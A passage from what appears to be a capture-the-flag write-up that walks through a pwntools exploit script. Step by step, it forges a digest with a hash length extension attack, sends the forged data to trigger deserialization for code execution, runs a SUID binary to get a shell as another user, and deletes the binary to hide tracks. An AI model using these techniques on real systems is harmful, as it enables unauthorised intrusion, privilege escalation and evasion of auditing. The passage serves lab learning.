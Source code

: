 Using the Python API for HashPump, we can generate the forged hash digest and the resultant data
containing the original Base64 data, some padding, and our forged Base64 data.

```python
    # Forge the digest with the hash length extension attack.
    # The key length is known to be 32 from the App.java key length check.
    log.info('Forging the new cake and digest with the malicious fireworks field.')
    forged_digest, forged_data = hashpumpy.hashpump(cake_struct['digest'], cake_base64,
                                                    fireworks_encoded, 32)
```

A new cake JSON structure is created from the HashPump output.

```python
    # Construct the new exported cake.
    new_cake = {
        'digest': forged_digest,
        'cake': binascii.hexlify(forged_data).decode('raw_unicode_escape')
    }
    new_cake_json = json.dumps(new_cake)
    log.success('New Cake JSON forged successfully!')
```

The forged cake JSON is now sent to the application to import.

```python
    # Send the forged JSON.
    log.info('Sending the forged JSON.')
    c.recvuntil(b'Choice: ')
    c.sendline(b'8')
    c.recvuntil(b'Please enter your saved cake: ')
    c.sendline(new_cake_json)
    c.recvuntil(b'Cake successfully gotten!')
```

Now the cake is eaten to trigger the deserialization. After triggering it, the application is exited
back to the `mouse` shell.

```python
    # Trigger the deserialization and get RCE as hatter.
    # The service should crash.
    log.info('Triggering the deserialization to create the hatter SUID binary...')
    c.recvuntil(b'Choice: ')
    c.sendline(b'9')
    c.recvuntil(b'Hope you had fun! Bad day!')
    c.sendline(b'\n\n')
```

The SUID binary is executed to gain a shell as the `hatter` user and its cleaned up immediately.

```python
    # Drop into the hatter suid shell.
    log.info('Triggering the SUID binary to escalate to the hatter user.')
    c.sendline(b'/tmp/hackers_use_me/pwn2 -p')
    # Remove the binary.
    log.info('Removing the SUID binary to clean up the tracks.')
    c.sendline(b'rm /tmp/hackers_use_me/pwn2')
```
